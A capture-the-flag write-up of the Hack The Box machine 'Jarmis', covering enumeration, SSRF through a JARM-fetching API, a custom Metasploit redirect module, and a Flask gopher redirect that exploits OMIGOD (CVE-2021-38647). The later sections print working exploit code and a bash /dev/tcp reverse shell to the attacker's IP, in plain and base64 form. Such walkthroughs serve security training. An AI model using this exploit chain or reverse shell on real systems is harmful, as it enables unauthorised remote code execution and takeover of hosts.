

## Enumeration

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDZBURYGCLr4lZI1F55bUh/6vKCfmeGumtAhhNrg9lH4UNDB/wCjPbD+xovPp3UdbrOgNdqTCdZcOk5rQDyRK2YH6tq8NlP59myIQV/zXC9WQnhxn131jf/KlW78vzWaLfMU+m52e1k+YpomT5PuSMG8EhGwE5bL4o0Jb8Unafn13CJKZ1oj3awp31fRJDzYGhTjl910PROJAzlOQinxRYdUkc4ZT0qZRohNlecGVsKPpP+2Ql+gVuusUEQt7gPFPBNKw3aLtbLVTlgEW09RB9KZe6Fuh8JszZhlRpIXDf9b2O0rINAyek8etQyFFfxkDBVueZA50wjBjtgOtxLRkvfqlxWS8R75Urz8AR2Nr23AcAGheIfYPgG8HzBsUuSN5fI8jsBCekYf/ZjPA/YDM4aiyHbUWfCyjTqtAVTf3P4iqbEkw9DONGeohBlyTtEIN7pY3YM5X3UuEFIgCjlqyjLw6QTL4cGC5zBbrZml7eZQTcmgzfU6pu220wRo5GtQ3U=
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJZPKXFj3JfSmJZFAHDyqUDFHLHBRBRvlesLRVAqq0WwRFbeYdKwVIVv0DBufhYXHHcUSsBRw3/on9QM24kymD0=
|   256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEDIBMvrXLaYc6DXKPZaypaAv4yZ3DNLe1YaBpbpB8aY
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: C92B85A5B907C70211F4EC25E29A8C4A
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Jarmis
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the `nmap`scan, we see two ports open, one running ssh and the other one http -> we can immediately head over to the website and see what is running:

Upon getting to the landing page of the website, we only see:


We can then get the `GET`request with `BurpSuite`and we see:

```http
GET / HTTP/1.1
Host: 10.129.95.238
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Wed, 22 Sep 2021 03:31:17 GMT
If-None-Match: W/"614aa385-8ce"
```

After checking the requests made in `BurpSuite`again, we also notice a `GET`request to `jarmis.htb`:

```http
GET /openapi.json HTTP/1.1
Host: jarmis.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.95.238/
Origin: http://10.129.95.238
Connection: keep-alive
```

We can then add `jarmis.htb`to our `/etc/hosts`file with:

```bash
echo "10.129.95.238 jarmis.htb" | sudo tee -a /etc/hosts
```

In the response of the `jarmis`request, we see that it loads `Jarmis API`that has the description:

```json
"openapi":"3.0.2",
"info":{
	"title":"Jarmis API",
	"description":"\nJarmis helps identify malicious TLS Services by checking JARM Signatures and Metadata.\n\n## What is a jarm?\n\n* 62 Character non-random fingerprint of an SSL Service.\n* First 30 characters are Cipher and TLS Versions.\n* Last 32 characters are truncated Sha256 Hash of extensions.\n\n## Jarm Collisions\n\n* The first 30 characters, it's the same SSL Configuration.\n* The last 32 characters, it's the same server.  \n* Full collisions are possible.  That is why this service also utilzies metadata when deconfliction is necessary.\n\nBackend coded by ippsec\n",
	"version":"0.1.0"
},...
```

==> Then, when going to `http://jarmis.htb`, we are greeted by this page:


At this point I had to read a bit about `JARM`as I wasn't familiar with it, and I found some info on [this website](https://docs.binaryedge.io/modules/jarm/):

```txt
The JARM module attempts to actively fingerprint an SSL/TLS server via a series of TLS Client Hello packets to extract specific responses that can be used to quickly identify default applications or malware.
```

==> Then, we can do some exploring of the new functionalities offered by this page. There are 3 possibilities:
- Search Id
- Search signature
- Fetch `jarm`

-> The first one allows to search for an id (integer) and returns the JSON details for the `JARM`signature:


-> The `Fetch jarm`functionality seems interesting as we can input a url to it. We can test it with:


and we get a callback on our listener!!

```bash
rlwrap nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.146] from (UNKNOWN) [10.129.95.238] 40252
E$J [OQJqwPdEs3, Tz18_'qAu|nd|3g9kEĚ    #+
$,rs'/(0`avw
/<5=A
     10.10.14.146
3&$ оz2ch2spdy/3spdy/2spdy/http/1.http/1.http/0.9
BAWui$?Z S
BAWui$?Z S
```

We can see that after the successful connections have been made, we get a signature that will be updated to the database.

==> At this point I got stuck for a while and decided to go back to basic web enumeration, checking for other vhosts or sub directories:

```bash
gobuster vhost -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://jarmis.htb                                                
===============================================================            
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://jarmis.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
```

And while `gobuster`did not yield any results, `dirsearch`got some files:

```bash
dirsearch -u http://jarmis.htb                                                   
  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                             
 (_||| _) (/_(_|| (_| )       
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460                                                               
Output File: 
Target: http://jarmis.htb/                                                       
[21:56:34] Starting:                                                                                                                                         
[21:56:46] 301 -  178B  - /api  ->  http://jarmis.htb/api/                       
[21:56:52] 307 -    0B  - /docs/  ->  http://jarmis.htb/docs
[21:56:52] 200 -  967B  - /docs
[21:56:53] 200 -    4KB - /favicon.ico  
[21:56:58] 200 -  492B  - /manifest.json
[21:57:01] 200 -    5KB - /openapi.json 
[21:57:04] 200 -  770B  - /redoc        
[21:57:05] 200 -   67B  - /robots.txt   
[21:57:08] 301 -  178B  - /static  ->  http://jarmis.htb/static/

Task Completed
```

We notice the [`/docs`](http://jarmis.htb/docs#/) endpoint, which actually contains the documentation for the `JARM API`:


And looking at the details of the `Fetch JARM`endpoint, we see this:

```txt
Query an endpoint to retrieve its JARM and grab metadata if malicious.
```

==> To grab the metadata, there must be a connection made to the server --> we can then try to see if we can get access to it.
## Exploitation
We can then craft a `cURL`request to scan for open ports on the server:

```bash
curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:20
{"sig":"00000000000000000000000000000000000000000000000000000000000000","endpoint":"null","note":"localhost"}

curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:22
{"sig":"00000000000000000000000000000000000000000000000000000000000000","endpoint":"127.0.0.1:22","note":"localhost"}                                             
```

and since we know that port 22 is running on the host, we can see a difference in the response depending on if the port is open or closed. ==> We can then craft a `ffuf`wordlist to enumerate open ports on the machine:

```bash
seq 65435 > ports.txt
ffuf -w ports.txt -u "http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ" -fs 109

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ
 :: Wordlist         : FUZZ: /home/flavien/Desktop/HTB_CTFs/Machines/Retired/Hard/Jarmis/ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 109
________________________________________________

22                  [Status: 200, Size: 117, Words: 1, Lines: 1, Duration: 204ms]
80                  [Status: 200, Size: 117, Words: 1, Lines: 1, Duration: 90ms]
5985                [Status: 200, Size: 119, Words: 1, Lines: 1, Duration: 165ms]
5986                [Status: 200, Size: 119, Words: 1, Lines: 1, Duration: 165ms]
8001                [Status: 200, Size: 119, Words: 1, Lines: 1, Duration: 630ms]
```

and we discover 2 new open ports: **5985** , **5986** and **8001**

==> Ports 5985  and 5986 immediately stand out as they are typically the ports used for `WinRM`but this is a Linux host -> after some research, we discover that this is usually handled with [Open Management Infrastructure](https://www.microsoft.com/en-us/windows-server/blog/2012/06/28/open-management-infrastructure/) and doing some more research, we discover [CVE-2021-38647](https://www.tenable.com/plugins/nessus/153486) which timeline coincides with the box's release.

We can look at some scripts and the documentation of this attack to see that we need to make a `POST`request to the end server. We then need to figure out a way to do so as currently it is only accessible through the `cURL` request.

```python
def exploit(target, command):
    headers = {'Content-Type': 'application/soap+xml;charset=UTF-8'}
    r = requests.post(f'https://{target}:5986/wsman', headers=headers, data=DATA.format(command), verify=False)
    output = re.search('<p:StdOut>(.*)</p:StdOut>', r.text)
    error = re.search('<p:StdErr>(.*)</p:StdErr>', r.text)
    if output:
        if output.group(1):
            print(output.group(1).rstrip('&#10;'))
    if error:
        if error.group(1):
            print(error.group(1).rstrip('&#10;'))

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='The IP address of the target', required=True)
    parser.add_argument('-c', '--command', help='The command to run')
    args = parser.parse_args()
    exploit(args.target, args.command)
```

==> We can do some more enumeration on the `/search`endpoint as we can dump the database there by requesting all of the different ids on the server:

```bash
curl http://jarmis.htb/api/v1/search/id/222
{"id":222,"sig":"27d27d27d00027d1dc27d27d27d27d3446fb8839649f251e5083970c44ad30","ismalicious":false,"endpoint":"47.246.24.234:443","note":"login.tmall.com"}
```

and after some easy trial and error, we discover that there are **222** entries -> we can make a small bash script to retrieve all of them:

```bash
#!/bin/bash

output_file="results.json"

echo "[" > "$output_file"

for id in $(seq 0 222); do
  response=$(curl -s "http://jarmis.htb/api/v1/search/id/$id")
  echo "$response," >> "$output_file"
done

sed -i '$ s/,$//' "$output_file"
echo "]" >> "$output_file"

echo "Results saved to $output_file"
```

With this script executed, we now have the entire database in the file `results.json`
-> We can then filter to display only the ones deemed malicious:

```json
cat results.json | jq '.[] | select(.ismalicious==true)'                         
{
  "id": 95,
  "sig": "2ad2ad00000000000043d2ad2ad43dc4b09cccb7c1d19522df9b67bf57f4fb",
  "ismalicious": true,
  "endpoint": "104.24.4.98",
  "note": "Sliver",
  "server": "Apache/2.4.40"
}
{
  "id": 128,
  "sig": "2ad2ad0002ad2ad00042d42d000000ad9bf51cc3f5a1e29eecb81d0c7b06eb",
  "ismalicious": true,
  "endpoint": "185.199.109.153",
  "note": "SilentTrinity",
  "server": ""
}
{
  "id": 135,
  "sig": "21d000000000000000000000000000eeebf944d0b023a00f510f06a29b4f46",
  "ismalicious": true,
  "endpoint": "104.24.4.98",
  "note": "Ncat",
  "server": ""
}
{
  "id": 154,
  "sig": "07d14d16d21d21d00042d43d000000aa99ce74e2c6d013c745aa52b5cc042d",
  "ismalicious": true,
  "endpoint": "99.86.230.31",
  "note": "Metasploit",
  "server": "apache"
}
{
  "id": 170,
  "sig": "22b22b09b22b22b22b22b22b22b22b352842cd5d6b0278445702035e06875c",
  "ismalicious": true,
  "endpoint": "94.140.114.239",
  "note": "Trickbot",
  "server": "Cowboy"
}
{
  "id": 174,
  "sig": "29d21b20d29d29d21c41d21b21b41d494e0df9532e75299f15ba73156cee38",
  "ismalicious": true,
  "endpoint": "192.64.119.215",
  "note": null,
  "server": ""
}
{
  "id": 178,
  "sig": "1dd40d40d00040d1dc1dd40d1dd40d3df2d6a0c2caaa0dc59908f0d3602943",
  "ismalicious": true,
  "endpoint": "192.145.239.18",
  "note": "AsyncRAT",
  "server": ""
}
{
  "id": 179,
  "sig": "2ad2ad0002ad2ad00043d2ad2ad43da5207249a18099be84ef3c8811adc883",
  "ismalicious": true,
  "endpoint": "94.140.114.239",
  "note": "Sliver",
  "server": "Apache/2.4.38"
}
{
  "id": 184,
  "sig": "28d28d28d00028d00041d28d28d41dd279b0cf765af27fa62e66d7c8281124",
  "ismalicious": true,
  "endpoint": "51.136.77.112",
  "note": "Gophish",
  "server": "nginx"
}
{
  "id": 197,
  "sig": "07d14d16d21d21d07c42d41d00041d24a458a375eef0c576d23a7bab9a9fb1",
  "ismalicious": true,
  "endpoint": "104.17.237.190",
  "note": "CobaltStrike",
  "server": ""
}
```

and we see a few ones. We can apply even more filtering by using this next command to only display the `note`and the `id`of each malicious entry:

```bash
cat results.json | jq -c '.[] | select(.ismalicious==true) | [.id, .note]'
[95,"Sliver"]
[128,"SilentTrinity"]
[135,"Ncat"]
[154,"Metasploit"]
[170,"Trickbot"]
[174,null]
[178,"AsyncRAT"]
[179,"Sliver"]
[184,"Gophish"]
[197,"CobaltStrike"]
```

And one of the entry immediately jumps out as it has `Metasploit`in its name --> this might mean that a connection to it will respond to us!!

==> This next part was really difficult as it is pretty hard and I did not have much experience with this. The next goal is to try and get a connection to our `Metasploit`running locally. To do so, we can first setup a `/multi/handler`with:

```bash
sudo msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST tun0
set LPORT 443
```

We can also open `WireShark`and observe the requests made when we query the database:


and we do see the 10 requests that `JARM`is supposed to make. Interestingly, when our request is deemed malicious then there is a 12th `TCP`stream Running the command on our server gives us this result:

```bash
curl http://jarmis.htb/api/v1/fetch?endpoint=http://10.10.14.146:443 | jq .
{
  "sig": "07d19d12d21d21d07c42d43d000000f50d155305214cf247147c43c0f1a823",
  "ismalicious": true,
  "endpoint": "10.10.14.146:443",
  "note": "Metasploit",
  "server": "Apache"
}
```

We also see that other than the `TLS`streams that we cannot read, the last `TCP`stream (when our input is malicious) can be read:


As mentioned in the `/fetch`API documentation, the extra `TLS`stream is to fetch information on the server. --> We can then try to capture it!

To do so, we can use the `/server/capture/http`:

```bash
use auxiliary/server/capture/http
set ssl true
set srvport 443
run
```

and upon querying the database again, we see a slightly different response from the server:

```json
curl -s -X 'GET' 'http://jarmis.htb/api/v1/fetch?endpoint=10.10.14.146' -H 'accept: application/json' | jq
{
  "sig": "07d19d12d21d21d07c42d43d000000f50d155305214cf247147c43c0f1a823",
  "ismalicious": false,
  "endpoint": "10.10.14.146:443",
  "note": "Metasploit?",
  "server": ""
}

```

and on our server, we see this:

```bash
msf6 auxiliary(server/capture/http) > 
[*] HTTP REQUEST 10.129.95.238 > 10.10.14.146:80 GET / Unknown   cookies=
```

Now comes the atrocious part, we need to create a custom `Metasploit`module to see if we can redirect the 11th request. The process to do so is the following:

### Metasploit custom module

We need to create a new directory for our module, and add a script there:

```bash
sudo mkdir -p /root/.msf4/modules/auxiliary/server/
sudo cp /usr/share/metasploit-framework/modules/auxiliary/server/capture/http_basic.rb
/root/.msf4/modules/auxiliary/server/jarmisRedirect.rb
```

Now that this is done, we can then transform the full script and keep this part. The script can be downloaded from [0xdf's website](https://0xdf.gitlab.io/files/jarmis-msf-mod.rb)

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpServer::HTML
  include Msf::Auxiliary::Report

  def initialize(info={})
    super(update_info(info,
      'Name'        => 'Redirect Jarmis Scanner to something else',
      'Description'    => %q{
        The Jarmis Scanner will try to collect content from a server it detects as a known
        malicious JARM. MSF is that, and therefore this module will redirect that last request
        to some other url for SSRF.
      },
      'Author'      => ['0xdf'],
      'License'     => MSF_LICENSE,
      'Actions'     =>
        [
          [ 'Redirect', 'Description' => 'Run redirect web server' ]
        ],
      'PassiveActions' =>
        [
          'Redirect'
        ],
      'DefaultAction'  => 'Redirect'
    ))

    register_options(
      [
        OptPort.new('SRVPORT', [ true, "The local port to listen on.", 443 ]),
        OptString.new('RedirectURL', [ true, "The page to redirect users to" ]),
        OptBool.new('SSL', [ true, "Negotiate SSL for incoming connections", true])
      ])
  end

  # Not compatible today
  def support_ipv6?
    false
  end

  def run
    @myhost   = datastore['SRVHOST']
    @myport   = datastore['SRVPORT']

    exploit
  end

  def on_request_uri(cli, req)
    if datastore['RedirectURL']
      print_status("Redirecting client #{cli.peerhost} to #{datastore['RedirectURL']}")
      send_redirect(cli, datastore['RedirectURL'])
    else
      send_not_found(cli)
    end
  end
end
```

We can then use this module by using the following commands:

```bash
msf6 > search jarmis

Matching Modules
================
   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  auxiliary/server/jarmisRedirect  .         normal  No     Redirect Jarmis Scanner to something else
msf6 > use 0

msf6 auxiliary(server/jarmisRedirect) > set ssl true
ssl => true
msf6 auxiliary(server/jarmisRedirect) > set srvport 443
srvport => 443
msf6 auxiliary(server/jarmisRedirect) > set srvhost tun0
srvhost => 10.10.14.146
msf6 auxiliary(server/jarmisRedirect) > set redirecturl http://10.10.14.146/test
redirecturl => http://10.10.14.146/test
msf6 auxiliary(server/jarmisRedirect) > run
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/jarmisRedirect) > 
[*] Using URL: https://10.10.14.146/FrLyx9g
[*] Server started.
```

And when running it, we get a new url that we can use, in our case it is: `https://10.10.14.146/FrLyx9g` 

==> Now to complete the redirection, we need to run this custom module alongside a python web server and pass this crafted url to `jarmis`:

```bash
curl -s -X 'GET' 'http://jarmis.htb/api/v1/fetch?endpoint=https://10.10.14.146/FrLyx9g' -H 'accept: application/json' | jq
{
  "sig": "07d19d12d21d21d07c42d43d000000f50d155305214cf247147c43c0f1a823",
  "ismalicious": false,
  "endpoint": "10.10.14.146:443",
  "note": "Metasploit?",
  "server": ""
}

msf6 auxiliary(server/jarmisRedirect) > 
[*] Redirecting client 10.129.95.238 to http://10.10.14.146/test
[*] Redirecting client 10.129.95.238 to http://10.10.14.146/test

python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.238 - - [20/Dec/2024 09:50:52] code 404, message File not found
10.129.95.238 - - [20/Dec/2024 09:50:52] "GET /test HTTP/1.1" 404 -
```

Here we see that the redirection was successful!! We now have the means to try and use the `OMIGOD`vulnerability 

==> The last hard part is now to create a custom server that will redirect the `jarmis`request as a `POST` --> we can use `Flask`to do so.

We will then want to have `Metasploit` redirect to our python server, we can then create it and set a new `redirecturl`field:

```bash
msf6 auxiliary(server/jarmisRedirect) > set redirecturl https://10.10.14.146:8443
redirecturl => https://10.10.14.146:8443
```

```python
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)

@app.route('/')
def root():
    return redirect('http://10.10.14.146', code=301)

if __name__ == "__main__":
    app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
```

So then when the request arrives, it follows this path:

`Metasploit`-> Python server -> `netcat` listening on port 80



The final step is to find a way to make the request go back to the server on port 5985
### Gopher
We can use `gopher`for this and the first step is to replace the url in our server file:

```python
return redirect(f'gopher://10.10.14.146:5985/_test', code=301)
nc -lnvp 5985
```

And we see that the redirection is indeed working => the last step is to get a reverse shell from this.
### Adding reverse shell
Now in order to get access on the server, we need to add the reverse shell by taking the  `DATA`and `REQUEST`fields from the `POC` and add a reverse shell command:

```bash
echo 'bash -i >& /dev/tcp/10.10.14.146/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQ0NCAwPiYxCg==
```

and then we can modify our server to redirect this command to the remote server and listen on port 4444 to get a reverse shell, here is the last script for `server.py`:

```python
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)

DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>{}</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
"""

REQUEST = """POST / HTTP/1.1\r
Host: localhost:5985\r
User-Agent: curl/7.74.0\r
Content-Length: {length}\r
Content-Type: application/soap+xml;charset=UTF-8\r
\r
{body}"""


@app.route('/')
def root():
    cmd = "echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQ0NCAwPiYxCg==' | base64 -d | bash"
    data = DATA.format(cmd)
    req = REQUEST.format(length=len(data)+2, body=data)
    enc_req = quote(req, safe='')
    return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301)

if __name__ == "__main__":
    app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
```

and upon running all of this together, we get:


And from here we can get the root and user flags!